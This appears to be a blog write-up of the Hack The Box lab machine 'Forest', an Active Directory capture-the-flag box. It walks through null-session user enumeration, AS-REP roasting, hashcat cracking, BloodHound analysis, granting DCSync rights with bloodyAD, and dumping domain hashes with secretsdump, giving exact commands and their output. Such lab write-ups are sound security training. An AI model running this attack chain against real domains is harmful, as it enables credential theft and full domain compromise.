 ```yaml
---
title: Forest (Easy) - HTB
date: 2024-05-24 12:00:00 +/-TTTT
categories: [Writeups]
image:
    path: /assets/img/forest/thumbnail.png
---
```



Forest is an easy level box, which involves pure Active Directory attacks. The box starts out with enumerating all the users within the domain by using a null rpc session. We can then leverage this user list to find an AS-REP roastable user. By AS-REP roasting this user, we are able obatin their hash, which can then be cracked using HashCat. We leverage this user to run Bloodhound and find out we can add ourselves to a high privilaged group, allowing WriteDACL over the domain.

### Initial Enumeration
Run Nmap to see all open ports

``` bash
sudo nmap -sV -sC 10.129.95.210 -oN scan.nmap -v
```

``` bash
# Nmap 7.94SVN scan initiated Wed Sep  4 21:29:53 2024 as: nmap -sV -sC -oN scan.nmap -v 10.129.95.210
Nmap scan report for 10.129.95.210
Host is up (0.051s latency).
Not shown: 989 closed tcp ports (reset)
PORT     STATE SERVICE      VERSION
53/tcp   open  domain       Simple DNS Plus
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2024-09-05 01:36:50Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
|_clock-skew: mean: 2h26m49s, deviation: 4h02m31s, median: 6m48s
| smb-os-discovery:
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2024-09-04T18:36:55-07:00
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required
| smb2-time:
|   date: 2024-09-05T01:36:56
|_  start_date: 2024-09-05T01:33:34

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Sep  4 21:30:15 2024 -- 1 IP address (1 host up) scanned in 21.96 seconds
```

See port `88` up as Kerberors, and port `3268` as LDAP, this tells me this is most likely a Windows DC. I started out by checking if null sessions were allowed with SMB.

Running the following proves that a null session is allowed, but unable to list shares

``` bash
$ nxc smb 10.129.95.210 -u "" -p ""  --shares

SMB         10.129.95.210   445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.129.95.210   445    FOREST           [+] htb.local\:
SMB         10.129.95.210   445    FOREST           [-] Error enumerating shares: STATUS_ACCESS_DENIED
```

### Foothold via ASREPRoast

#### Creating a Userlist

Due to no access to signifigant access the domain controller through a null session, I decided to use the null session to enumerate users on the machine. If we get a list of valid users I could enumerate users vulnerable to ASREProasting, due to no pre-authentication required 

I first checked it the null session was allowed to enumerate users with NetExec


``` bash
$ nxc smb 10.129.95.210 -u "" -p ""  --users

SMB         10.129.95.210   445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.129.95.210   445    FOREST           [+] htb.local\:
SMB         10.129.95.210   445    FOREST           -Username-                    -Last PW Set-       -BadPW- -Description-
SMB         10.129.95.210   445    FOREST           Administrator                 2021-08-31 00:51:58 0       Built-in account for administering the computer/domain
SMB         10.129.95.210   445    FOREST           Guest                         <never>             0       Built-in account for guest access to the computer/domain
SMB         10.129.95.210   445    FOREST           krbtgt                        2019-09-18 10:53:23 0       Key Distribution Center Service Account
SMB         10.129.95.210   445    FOREST           DefaultAccount                <never>             0       A user account managed by the system.
<SNIP>
SMB         10.129.95.210   445    FOREST           svc-alfresco                  2024-09-05 01:44:34 0
SMB         10.129.95.210   445    FOREST           andy                          2019-09-22 22:44:16 0
SMB         10.129.95.210   445    FOREST           mark                          2019-09-20 22:57:30 0
SMB         10.129.95.210   445    FOREST           santi                         2019-09-20 23:02:55 0
```

As seen above the anonymous user is allowed to get all domain users. To get a list of these user, I used rpcclient and vim macros.

``` bash
$ rpcclient -U "" -N 10.129.95.210 -c enumdomusers | tee users.txt
```

Now that I have my users list, I ran `GetNPUsers.py`, which looks for users which do not require pre-authenticaiton, the tool also automatically requests and saves a vulnerable user's hash.

#### Cracking svc-alfresco's hash

``` bash
$ impacket-GetNPUsers 'htb.local/' -dc-ip 10.129.95.210 -usersfile users.txt -format hashcat -outputfile asrep-hashes.txt

Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
<SNIP>
[-] User HealthMailbox7108a4e doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox0659cc1 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$svc-alfresco@HTB.LOCAL:4bb40a38014d2f38d41c0ae6c393c832$a6452ab4d3fbb82b18066ae24e83100677e8e02846cbd0d8b5d6903bd560dbf313da5ec0ca329729a3454e47276bbaa7f7cb9eaf6daeea8204c52a8429f982c63bdc4083225001e21320b559cd538f1a3b02d629e4987eff70d058d9305cd2b9b4de5b008a356fece2b4477c476cf423c99a28b3eee5ae6eecea86e4c9607d0df1ce877486b98acc82f9a348764e81e1f156593329390b86fe3334dda4b1f26d3f71cf3474fe4302b86c6acc0c2b5fc22d750386baccf483f940a97086132d9b035b857470ecce7183f5d98d0eda4d5d3a28cb88ee16d66f7836efd8295ce3878e04715c0bb5
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
```

Running this, the user `svc-alfresco` does not require pre-authentication. Now that the user's hash is saved, I forwarded to hashcat to crack.

```bash
$ hashcat asrep-hashes.txt /usr/share/wordlists/rockyou.txt

$krb5asrep$23$svc-alfresco@HTB.LOCAL:4bb40a38014d2f38d41c0ae6c393c832$a6452ab4d3fbb82b18066ae24e83100677e8e02846cbd0d8b5d6903bd560dbf313da5ec0ca329729a3454e47276bbaa7f7cb9eaf6daeea8204c52a8429f982c63bdc4083225001e21320b559cd538f1a3b02d629e4987eff70d058d9305cd2b9b4de5b008a356fece2b4477c476cf423c99a28b3eee5ae6eecea86e4c9607d0df1ce877486b98acc82f9a348764e81e1f156593329390b86fe3334dda4b1f26d3f71cf3474fe4302b86c6acc0c2b5fc22d750386baccf483f940a97086132d9b035b857470ecce7183f5d98d0eda4d5d3a28cb88ee16d66f7836efd8295ce3878e04715c0bb5:s3rvice

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
Hash.Target......: $krb5asrep$23$svc-alfresco@HTB.LOCAL:4bb40a38014d2f...5c0bb5
Time.Started.....: Wed Sep  4 22:02:11 2024 (9 secs)
Time.Estimated...: Wed Sep  4 22:02:20 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   447.1 kH/s (0.73ms) @ Accel:256 Loops:1 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 4085760/14344385 (28.48%)
Rejected.........: 0/4085760 (0.00%)
Restore.Point....: 4085248/14344385 (28.48%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: s402gercd -> s3r3ndipit
Hardware.Mon.#1..: Util: 70%

Started: Wed Sep  4 22:02:09 2024
Stopped: Wed Sep  4 22:02:22 2024
```


The user's hash is sucessfully cracked and we can now log in as that user

``` bash
$ nxc smb 10.129.95.210 -u "svc-alfresco" -p "s3rvice"

SMB         10.129.95.210   445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.129.95.210   445    FOREST           [+] htb.local\svc-alfresco:s3rvice
```


### Abusing ACLs

#### Running Bloodhound

I decided to run Bloodhound to find any possible relations from our current user

``` bash
$ nxc ldap 10.129.95.210 -u "svc-alfresco" -p "s3rvice" --bloodhound -c all --dns-server 10.129.95.210 --dns-tcp

SMB         10.129.95.210   445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
LDAP        10.129.95.210   389    FOREST           [+] htb.local\svc-alfresco:s3rvice
LDAP        10.129.95.210   389    FOREST           Resolved collection methods: localadmin, acl, objectprops, trusts, group, dcom, psremote, session, rdp, container
LDAP        10.129.95.210   389    FOREST           Done in 00M 17S
LDAP        10.129.95.210   389    FOREST           Compressing output into /home/parallels/.nxc/logs/FOREST_10.129.95.210_2024-09-04_220801_bloodhound.zip
```


Checking this user's transitive object control, I was able to map the following path in Bloodhound.

![bloodhound path](/assets/img/forest/1.png)

Through nested groups, our user is apart of the `Account Operators` AD group, this group allows `GenericAll` rights over the group `EXCHANGE WINDOWS PERMISSIONS`. GenericAll permissions over a group allow us to add a user to that group. Once we have control over `EXCHANGE WINDOWS PERMISSIONS`, we can legerage `WriteDACL` to permit a user DCsync rights over the domain, effectivly compromising the domain through a DCsync attack.

I use `Bloody-AD` to create a new user to be used with this attack, we are allowed to do this because we are in the `Account Operators` group.

``` bash
$ bloodyAD -d htb.local --host 10.129.95.210 -u "svc-alfresco" -p "s3rvice" add user "jeff" "password123\!"
[+] jeff created
```

As mentioned earlier, we'll add our new user jeff to `EXCHANGE WINDOWS PERMISSIONS`

``` bash
$ bloodyAD -d htb.local --host 10.129.95.210 -u "svc-alfresco" -p "s3rvice" add groupMember "EXCHANGE WINDOWS PERMISSIONS" "jeff"
[+] jeff added to EXCHANGE WINDOWS PERMISSIONS
```
Using the user jeff, we can attempt to add DCSync privilages over the domain


```bash
$ bloodyAD -d htb.local --host 10.129.95.210 -u "jeff" -p "password123\!" add dcsync jeff
[+] jeff is now able to DCSync
```

### Domain Comprimise

We can now run secrets dump, given our new privilages.

``` bash
$ secretsdump.py htb.local/jeff:'password123!'@10.129.95.210

Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
<SNIP>
```